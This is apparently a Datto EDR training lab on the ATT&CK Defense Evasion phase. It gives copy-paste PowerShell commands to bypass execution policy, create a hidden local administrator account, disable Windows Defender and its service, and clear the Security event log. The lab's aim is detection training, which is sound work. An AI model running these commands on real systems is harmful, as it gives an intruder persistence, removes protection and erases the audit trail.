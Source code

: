 ```yaml
---
Title: ATT&CK - Defense Evasion Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/07/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- rightofboom.infocyte.com
- 
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Lab 4 is a light touch on some Defense Evasion techniques (such as disabling antivirus or defensive products). These techniques are often layered on the other techniques and phases to help hide that activity. In any case, when it comes to EDR and continuous monitoring, oftentimes we can use the presence of these evasion techniques as detection or confirmation that the user performing suspicious behaviors is indeed a threat.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Defense Evasion phase activities an attacker might utilize
2. Demonstrate Defense Evasion skills to disable antivirus and allow us to bring down additional malware utilities without being detected
3. Understand how we can use Defense Evasion activities to identify or confirm malicious intent

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
	```

## Instructions
For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 

> *While most defensive evasion will be used alongside other techniques to hide them, an explicit defense evasion phase usually will happen where the attacker will disable security tools and logging.*

### 1. Creating a new user via net.exe
*Attackers will often create users on the machine and attempt to escalate the privledges to manipulate the machine. A common technique is to use the net.exe process to silently create new users as well as escalate privleges to local administrator rights.*

[ATT&CK T1136.001-Create Account-Local Account](https://attack.mitre.org/techniques/T1136/001/)
- Copy and paste this command into the terminal:
```Powershell
Write-Host -ForegroundColor Cyan "Initiating Persistence...creating local account"
Write-Host "Creating user 'notahacker' with admin rights..."
$cmd = @"
net user notahacker Password123! /add
net localgroup administrators notahacker /add
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd 
Write-Host -ForegroundColor Green "'notahacker' added to Administrators group successfully."

*Verify user was created.*

```Powershell
net users
```

*If command ran correctly should return*

```
User accounts for \\[USER-WORKSTATION]
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
notahacker               [youraccount]                 WDAGUtilityAccount
```

### 2.Hiding the attacker from userlist - Defense Evasion
*Attackers will also make attempts to conceal the account, the command below, will alter the registry keys to remove the user from the userlist screen on a login screen*

- [ATT&CK T1564.002-Hide user from userlist](https://attack.mitre.org/techniques/T1564/002/)
- Copy and paste this command into the terminal:
```Powershell
$cmd = @"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /f /d 0 /v "notahacker"
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Green "'notahacker' removed from userlist."
```

### 3.Use Powershell to perform a **Disable Security Tools** technique
*The method we'll demonstrate today is to disable Windows Defender, often an attacker will use a script to detect and disable whatever AV is on the system. This action requires administrator privileges. This command may not work directly if tamper protection is enabled but there are methods an attacker can use to bypass tamper protection as well.*

- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
Set-MpPreference -DisableRealtimeMonitoring $true
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
```

### 4. Disabling Security Tools - Service Control Manager
> *If the above method does not work, attackers can also disable the antivirus service from the service control manager using sc.exe*

Use the Service Control Manager (sc.exe) to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
sc.exe config WinDefend start= disabled
sc.exe stop WinDefend
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Red "Windows Defender Disabled"
```

### 5. Removing Evidence of Activity - wevtutil.exe clear logs
*After completing certain tasks, or as part of a script, users wil conceal their tracks in an attempt to hide their activity*

- [ATT&CK T1070.001 - Defense Evasion - Windows Event Logs Cleared](https://attack.mitre.org/techniques/T1070/001/)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Clearing Security Logs"
$cmd = @"
wevtutil.exe cl Security
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Cyan "Logs Cleared"
```
